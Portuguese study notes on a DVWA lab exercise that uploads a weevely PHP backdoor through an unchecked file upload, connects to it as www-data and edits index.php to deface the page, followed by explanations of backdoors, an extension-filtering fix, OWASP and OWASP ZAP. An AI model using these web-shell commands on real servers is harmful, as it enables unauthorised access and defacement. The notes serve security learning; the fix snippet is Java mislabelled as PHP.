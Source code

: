 ```sh
weevely generate 1234 app.php
```

Onde 1234 é a senha de comunicação com esse arquivo que eu crio (que cria na pasta root), e eu espero me comunicar com ele no meu terminal quando ele estiver lá no servidor.

No dvwa ele nos dá o link e para acessar o arquivo eu coloco o seguinte link

http://192.168.0.102/dvwa/hackable/uploads/app.php

E depois eu coloco

```sh
weevely "http://192.168.0.102/dvwa/hackable/uploads/app.php" 1234
```

E ele se conecta com o servidor, tanto que se dermos ls ele nos mostra

```
app.php
dvwa_email.png
www-data@owaspbwa:/owaspbwa/dvwa-git/hackable/uploads
```

E aí conseguimos voltar diretórios até achar um arquivo chamado index.php e com isso conseguir mudar o conteúdo de lá de modo a colocar a foto do anemonas por lá

Um backdoor seria um arquivo no qual é usado para conexão, permitindo assim quando usado de forma correta, que um administrador possa entrar no sistema para realizar reparos de problemas. Quando usado de forma incorreta, o backdoor torna-se uma forma que hackers utilizam para ganhar acesso de forma ilícita.

Uploads de arquivos podem se tornar um problema, vimos em nossa aplicação pelo fato do sistema não verificar o tipo de arquivo, fomos capazes de inserir um backdoor e ganhamos assim acesso ao sistema. Ao filtrar o tipo de arquivo, temos uma segurança maior que o que será passado é apenas o necessário para nossa aplicação, por exemplo, poderíamos colocar em Java:

```php
FileFilter filtro = new FileNameExtensionFilter("jpg", "jpeg");
```

O Weevely seria um simulador de conexões telnet, para acesso remoto de equipamentos. Dessa forma, ele pode ser usado por usuários mal intencionados para ganhar acesso de uma máquina via conexão remota. Quando passamos o caminho do backdoor para o Weevely, ele é capaz de realizar a conexão e assim devemos ter o acesso do servidor. De forma legar o weevely pode ajudar um administrador de sistema a configurar o servidor de forma rápida e descomplicada mas para um agente mal intencionado isso representa uma vulnerabilidade tremenda.

### Owasp

No site da owasp os problemas de desconfiguração da segurança estão atualemte em sexto lugar e para evitar é a restrição do tipo de extensão que pode ser colocada ou não.

## Owasp ZAP

O owasp zap é uma ferramenta que realiza todos os testes de vulnerabilidade citados e mais alguns e nos mostra um relatório de como anda nossa aplicação (bem prático não? hahaha) para isso basta fazer adicionar a URL e rodar o teste, depois só ir na guia alert e ver o nível de segurança da sua aplicação.
